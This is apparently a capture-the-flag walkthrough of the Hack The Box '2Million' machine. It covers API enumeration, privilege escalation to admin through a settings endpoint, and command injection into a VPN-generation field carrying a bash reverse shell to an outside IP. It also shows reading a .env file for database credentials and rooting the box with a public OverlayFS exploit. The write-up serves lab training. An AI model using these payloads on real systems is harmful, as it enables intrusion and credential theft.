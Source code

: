 # 2Million HTB Walkthrough

## Enumeration

* Target is a Linux VM with ports **22** and **80** open.
* Homepage resembles the old HTB site.
* `/invite` page requires an invite code.

### Obfuscated JS Found in Source Code

```javascript
eval(function(p,a,c,k,e,d){...})
```

### Deobfuscated JavaScript:

```javascript
function verifyInviteCode(code){
    var formData = {"code": code};
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response){ console.log(response) },
        error: function(response){ console.log(response) }
    })
}

function makeInviteCode(){
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response){ console.log(response) },
        error: function(response){ console.log(response) }
    })
}
```

### Step 1: Generate Invite Code

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate
```

**Response:**
ROT13-encoded message

> "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr"

Decrypted:

> In order to generate the invite code, make a POST request to `/api/v1/invite/generate`

### Step 2: Get Invite Code

```bash
curl -X POST http://2million.htb/api/v1/invite/generate
```

**Response:** Base64-encoded string → `VDYwUTctTDNVRjAtOFpIVEgtWENDNVM=` → decoded to `HCGT8-QMFDG-2HB3O-RF0BB` → works.

* Redirected to `/register` → account creation → login successful.

---

## Post-login Enumeration

Didn't find much initially. Hint suggested checking available endpoints.

```bash
curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=6q3rgk6n1eht53emhqf3si7ug4"
```

### API Endpoints

#### ✅ User Endpoints

**GET:**

* `/api/v1`
* `/api/v1/invite/how/to/generate`
* `/api/v1/invite/generate`
* `/api/v1/invite/verify`
* `/api/v1/user/auth`
* `/api/v1/user/vpn/generate`
* `/api/v1/user/vpn/regenerate`
* `/api/v1/user/vpn/download`

**POST:**

* `/api/v1/user/register`
* `/api/v1/user/login`

#### ✅ Admin Endpoints

**GET:**

* `/api/v1/admin/auth`

**POST:**

* `/api/v1/admin/vpn/generate`

**PUT:**

* `/api/v1/admin/settings/update`

---

## Exploitation

### Step 1: Become Admin

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
  --cookie "PHPSESSID=6q3rgk6n1eht53emhqf3si7ug4" \
  -H "Content-Type: application/json" \
  -d '{"user":"abc","password":"123", "email":"abc@abc.com", "is_admin":1}'
```

**Verify:**

```bash
curl -X GET http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=..."
```

### Step 2: Generate VPN Config (Command Injection)

```bash
curl -v -X POST http://2million.htb/api/v1/admin/vpn/generate \
  --cookie "PHPSESSID=..." \
  -H "Content-Type: application/json" \
  -d '{"username":"abc; bash -c '\''bash -i >& /dev/tcp/10.10.14.55/1337 0>&1'\'';#"}'
```

* Gained shell as `www-data`

### Shell Stabilization

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Flag Access

```bash
cat /home/admin/user.txt
# Permission denied
```

### Extract `.env` Credentials

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

### SSH as Admin

```bash
ssh admin@2million.htb
```

---

## Privilege Escalation

* No sudo rights
* Dump users from MySQL:

```sql
SELECT * FROM users;
```

| id | username     | email                                                           | password (bcrypt)       | is\_admin |
| -- | ------------ | --------------------------------------------------------------- | ----------------------- | --------- |
| 11 | TRX          | [trx@hackthebox.eu](mailto:trx@hackthebox.eu)                   | \$2y\$10\$TG6...U3loEMq | 1         |
| 12 | TheCyberGeek | [thecybergeek@hackthebox.eu](mailto:thecybergeek@hackthebox.eu) | \$2y\$10\$wAT...bzw4QK  | 1         |

* Cracking failed due to bcrypt

### Hint: Check Admin's Email

```bash
cat /var/mail/admin
```

**From:** [ch4p@2million.htb](mailto:ch4p@2million.htb)
**Mentions:** OverlayFS vulnerability

### Confirm OS Version

```bash
lsb_release -a
```

```
Ubuntu 22.04.2 LTS (Jammy)
```

### Exploit Used

**CVE-2023-0386** (OverlayFS)

* Used exploit from: [https://github.com/puckiestyle/CVE-2023-0386](https://github.com/puckiestyle/CVE-2023-0386)
* SCP'ed to target, followed README instructions

### Root Access

```bash
cat /root/root.txt
```
